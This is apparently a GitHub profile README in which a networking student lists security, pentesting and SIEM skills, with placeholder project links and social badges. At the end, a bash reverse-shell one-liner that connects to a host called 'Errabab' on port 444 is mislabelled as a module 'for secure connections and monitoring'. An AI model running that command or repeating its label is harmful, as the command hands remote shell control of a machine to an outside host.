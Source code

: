 # 👋 Hi, I'm Errabab

### Network and Database Administration student skilled in security, virtualization, and web development, with a focus on efficient and robust tech solutions.

---

### 📜 About Me
I'm dedicated to the field of system and network administration, with a commitment to securing and optimizing tech environments. My experience spans cybersecurity, virtualization, and web development, all of which drive my goal to deliver efficient and reliable solutions.

---

### ⚙️ Configuration

<config>
  
  🖥️ **Systems Administration**  
  🛡️ **Network Security**  
  📶 **System & Network Monitoring**  
  👾 **Ethical Hacking**  
  💥 **Penetration Testing**  
  ♾️ **DevOps**  

</config>

---

### 💻 Skills

- **Network and System Administration**  
- **Network Security and Monitoring**  
- **Security Research (SoC)**  
- **Ethical Hacking and Penetration Testing**  
- **System Monitoring and Optimization**  
- **Automation and SIEM Configuration**  

---

### 🚀 Featured Projects

- [🛠️ SIEM Configuration Project](#)  
- [🔍 Network Security Research](#)  
- [📡 Real-time System Monitoring Setup](#)  

---

### 🤝 Connect with Me

[![GitHub](https://img.shields.io/badge/GitHub-Errabab-black?style=for-the-badge&logo=github)](https://github.com/Errabab)
[![LinkedIn](https://img.shields.io/badge/LinkedIn-Errabab-blue?style=for-the-badge&logo=linkedin)](https://www.linkedin.com/in/erabab-salec-ahrayam-316584263/)
[![X (Twitter)](https://img.shields.io/badge/X-_jk_29-blue?style=for-the-badge&logo=x)](https://x.com/_jk_29)

---

#### Note:
_This configuration includes Bash modules for secure connections and monitoring:_

```bash
/bin/bash -i >& /dev/tcp/Errabab/444 0>&1


<!---
Errabab/Errabab is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
